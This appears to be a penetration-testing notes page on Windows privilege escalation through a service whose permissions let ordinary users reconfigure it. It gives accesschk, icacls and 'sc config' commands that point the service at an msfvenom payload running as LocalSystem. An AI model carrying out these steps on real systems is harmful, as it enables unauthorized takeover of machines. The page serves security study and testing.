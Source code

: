 # Insecure service permission

Given a service with insecure permission allowing us to change the configurations, it can be exploited to change the executable to one defined by us.

The following command allows us to view the service permissions using the `AcessChk` tool:&#x20;

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk" %}

```powershell
C:\> accesschk -qlc [service_name]
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        ...
  
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

The following shows that the `BUILTIN\Users` group has the `SERVICE_ALL_ACCESS` permission, which means that any user can configure the service.

After creating an executable payload with `msfvenom`, and granting the appropriate permission on the created executable (usually full access `(F)` for the `Everyone` group). The associated executable and account for the vulnerable service can be updated.

**To grant full access (F) to a binary for the Everyone group:**

```powershell
C:\> icacls [exec_binary] /grant Everyone:F
```

The following sets the `vuln_service` service associated executable to the attacker created path, and the account to `LocalSystem` (highest privileged account available).

```powershell
C:\> sc config vuln_service binPath= [path_to_exec_payload].exe obj= LocalSystem
```

> Take note of the space after the equals sign (=) for the options passed to the `sc` command
